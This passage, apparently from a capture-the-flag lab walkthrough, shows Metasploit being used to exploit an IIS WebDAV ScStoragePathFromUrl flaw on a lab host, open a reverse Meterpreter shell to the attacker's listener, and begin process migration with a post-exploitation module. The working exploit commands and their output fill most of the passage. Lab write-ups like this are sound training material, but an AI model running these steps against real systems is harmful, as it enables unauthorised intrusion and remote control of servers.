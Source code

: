 ```bash
```

Here, we've loaded the exploit into metasploit and viewed all the available options it has.  The only one missing is RHOST, and the others appears to be defaults applicable to most installations, so for now we'll just change RHOST to the correct IP, and exploit the vulnerability.

```bash
msf exploit(iis_webdav_scstoragepathfromurl) > set RHOST 10.10.10.15
RHOST => 10.10.10.15
msf exploit(iis_webdav_scstoragepathfromurl) > exploit

[*] Started reverse TCP handler on 10.10.15.51:4444 
[*] Sending stage (957487 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.15.51:4444 -> 10.10.10.15:1030) at 2017-07-31 18:53:43 +0100

meterpreter > 

```

So, running it we have a shell on the remote system.  But there's a slight problem, in that we can't seem to run any standard api commands such as getuid of getpid.  These aren't incredibly useful for just running the shell but they are absolutely vital for any post exploitation command to function.
```bash
meterpreter > getuid 
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```
So to fix this, one thing we can try is migrating the process of our shell to something else.  Sometimes, this can remove whatever restrictions have been placed on our shell.

So we background our shell, and use the post/windows/migrate module.

```bash
meterpreter > background
[*] Backgrounding session 1...
msf exploit(iis_webdav_scstoragepathfromurl) > use post/windows/manage/migrate 
msf post(migrate) > show options 
  
Module options (post/windows/manage/migrate): 
  
   Name     Current Setting  Required  Description 
   ----     ---------------  --------  ----------- 
   KILL     false            no        Kill original process for the session. 
   NAME                      no        Name of process to migrate to. 
   PID                       no        PID of process to migrate to. 
   SESSION                   yes       The session to run this module on. 
   SPAWN    true             no        Spawn process to migrate to. If name for process not given notepad.exe is used. 
```
So here we see that this module will spawn a notepad.exe process and migrate our shell to run within that process.  All we need to give is the name of our shell's session which we set to the background earlier.
